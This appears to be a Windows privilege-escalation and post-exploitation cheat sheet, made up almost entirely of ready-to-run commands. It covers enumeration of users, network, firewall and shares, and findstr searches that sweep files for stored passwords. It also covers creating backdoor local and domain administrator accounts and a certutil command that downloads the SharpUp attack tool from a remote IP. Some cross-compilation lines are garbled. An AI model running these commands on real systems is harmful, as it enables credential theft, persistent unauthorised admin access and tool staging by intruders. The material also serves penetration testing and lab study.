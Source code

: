 ## users and groups
```
whoami /all
net users
net localgroup
net user <username>
net localgroup administrators
```
## network status
```
netstat -anoy
route print
arp -A
```
## firewall
```
netsh advfirewall firewall show rule name=all
netsh advfirewall firewall show rule name=inbound
netsh advfirewall firewall show rule name=outbounD
netsh firewall show state
netsh firewall show config
```
## scheduled tasks
```
schtasks /query /fo LIST /v > schtasks.txt
```
## find passwords
```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
dir /s pass == cred == vnc == .config
findstr /spin "password" .
```
## windows shares
```
NET SHARE
NET USE
--> CREATE A SHARE ON WINDOWS FROM THE COMMAND LINE:
NET SHARE <sharename>=<drive/folderpath> /remark: "This is my share."
--> MOUNT A WINDOWS SHARE FROM THE COMMAND LINE:
NET USE Z: [\\COMPUTER_NAME\SHARE_NAME](file://COMPUTER_NAME/SHARE_NAME) /PERSISTENT:YES
--> UNMOUNT SHARE:
NET USE Z: /DELETE
--> DELETE A SHARE ENTIRLE
NET SHARE /DELETE
```
## Find weak file permissions
```
accesschk.exe -uwqs Users c:*.*
```

A part of group "Authenticated Users" - you would be surprised if you have a real user.

```
accesschk.exe -uwqs "Authenticated Users" c:*.*
```
## Add Administrator Account
```
cmd.exe /c net user siren superPassword /add
cmd.exe /c net localgroup administrators siren /add
cmd.exe /c net localgroup "Remote Desktop Users" siren /add
```
## Add a Windows Domain Administrator
```
cmd.exe /c net user siren superPassword /add
net localgroup Administrators siren /ADD /DOMAIN
net localgroup "Remote Desktop Users" siren /ADD /DOMAIN
net group "Domain Admins" siren /ADD /DOMAIN
net group "Enterprise Admins" siren /ADD /DOMAIN
net group "Schema Admins" siren /ADD /DOMAIN
net group "Group Policy Creator Owners" siren /ADD /DOMAIN
```
## Access Check enumeration
```
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]
#Find ALL weak folder permissions, per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwqs Users c:*.*
accesschk.exe -uwqs "Authenticated Users" c:*.*
```
## Code Compilation
```
apt-get install mingw-w64

Cross-Compilation Reference:
Ci686-w64-mingw32-gcc hello.c -o hello32.exe
32-bitx86_64-w64-mingw32-gcc hello.c -o hello64.exe
64-bit # C++i686-w64-mingw32-g++ hello.cc -o hello32.exe
32-bitx86_64-w64-mingw32-g++ hello.cc -o hello64.exe # 64-bit
```

## hotfixes
```
wmic qfe list
```

## file transfer
```
certutil -urlcache -f -split http://10.10.14.63:4321/SharpUp.exe sharpup.exe
```